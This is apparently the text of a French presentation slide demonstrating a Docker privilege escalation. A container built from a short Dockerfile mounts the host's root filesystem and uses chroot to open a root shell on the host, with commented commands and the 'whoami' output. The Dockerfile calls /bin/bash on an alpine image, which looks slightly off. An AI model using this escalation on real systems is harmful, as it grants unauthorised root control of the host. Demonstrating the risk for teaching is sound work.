

Dockerfile

FROM alpine
COPY exploit.sh /exploit.sh
CMD ["/bin/bash", "exploit.sh"]
exploit.sh

chroot /hostOS /bin/sh
Notre exploit en 1 ligne : on utilise chroot pour lancer un shell fils avec pour répertoire racine « /hostOS » au lieu de « / »

# on build notre image "rootplease"
docker build -t rootplease .
# on crée et lance le conteneur en montant le système de fichiers racine de l'hôte
# (le système d'exploitation sur lequel Docker est exécuté)
# dans le conteneur sous le point de montage "/hostOS"
docker run -v /:/hostOS -it --rm rootplease
# Vous avez maintenant un shell root sur l'OS DE L'HOST
# (Ctrl-D pour sortir de l'instance docker / shell)
$ whoami
root
😱 😱 😱